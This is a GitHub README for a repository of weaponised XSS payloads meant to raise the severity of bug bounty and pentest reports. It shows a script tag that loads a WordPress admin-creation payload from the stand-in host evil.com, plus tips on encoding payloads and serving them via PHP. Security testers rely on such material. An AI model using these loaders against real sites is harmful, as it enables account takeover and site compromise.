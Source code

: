 ```yaml
---
repo: hakluke/weaponised-XSS-payloads
url: 'https://github.com/hakluke/weaponised-XSS-payloads'
homepage: null
starredAt: '2020-12-17T04:35:25Z'
createdAt: '2019-05-19T13:57:39Z'
updatedAt: '2025-02-22T18:36:59Z'
language: JavaScript
license: NA
branch: master
stars: 1350
isPublic: true
isTemplate: false
isArchived: false
isFork: false
hasReadMe: true
refreshedAt: '2025-02-25T21:18:16.127Z'
description: XSS payloads designed to turn alert(1) into P1
tags: []
---
```


# Weaponised XSS Payloads
_XSS payloads designed to turn alert(1) into P1._

## The Blog Post
This repo was released alongside a blogpost titled "How to Upgrade Your XSS Bugs from Medium to Critical" https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

## What is this?

In this repository you will find a bunch of JavaScript files which can be loaded into an XSS payload in order to perform sensitive functions on popular CMS platforms in the context of the victim's browser. This can help to chain a plain old XSS bug into something more critical, like an account takeover.

This is perfect for beefing up the severity of a pentest or bug bounty report by demonstrating real security impact.

Payloads are slowly being added either as I have time. There are plenty more to come, if you can help out - pull requests are welcome! If you're looking for inspiration on what to create - check the "issues" tab on this repo.

## How To

The simplest way to use these payloads is to host them somewhere and load them into the src attribute of a script tag for your XSS payload like this:

```
<script src="http://evil.com/wordpress_create_admin_user.js"></script>
```

Alternatively, depending on the context and length of the payload, it can sometimes be [minified](https://javascript-minifier.com/), [encoded](https://eve.gd/2007/05/23/string-fromcharcode-encoder/) and then just included directly into the request.

In order to host the JavaScript file, you may need to set the Content-Type to `application/javascript`. To achieve this with PHP, you can simply prepend this line to the top of any of the payloads, save it as a .php file and host it on your PHP-enabled webserver:

```
<?php header("Content-Type: application/javascript"); ?>
```


## Credits

[This article](https://www.shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/) from Shift8 is what inspired me to make this repo. The JS in the article has a couple of minor typos but the concepts are spot on.
